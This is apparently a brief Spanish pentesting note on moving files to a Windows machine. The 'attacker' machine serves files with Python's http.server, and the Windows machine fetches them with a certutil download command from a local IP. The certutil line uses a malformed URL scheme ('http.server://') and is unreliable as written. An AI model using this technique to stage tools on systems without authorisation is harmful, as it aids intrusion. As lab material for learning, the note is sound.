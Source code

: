 ```yaml
---
description: >-
  Ejemplo donde compartiremos archivos con un servidor web con python y
  descargarlos en máquinas windows con certutil.
---
```


# Compartir Archivos por la Red en Máquinas Windows

* Compartir servidor web con python en la máquina de atacante:

```bash
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Descargar archivo desde la máquina windows con certutil:&#x20;

<figure><img src="../../../.gitbook/assets/certutil.png" alt=""><figcaption></figcaption></figure>

```bash
certutil -split -urlcache -f http.server://192.168.1.18/archivo.txt archivo.txt
```
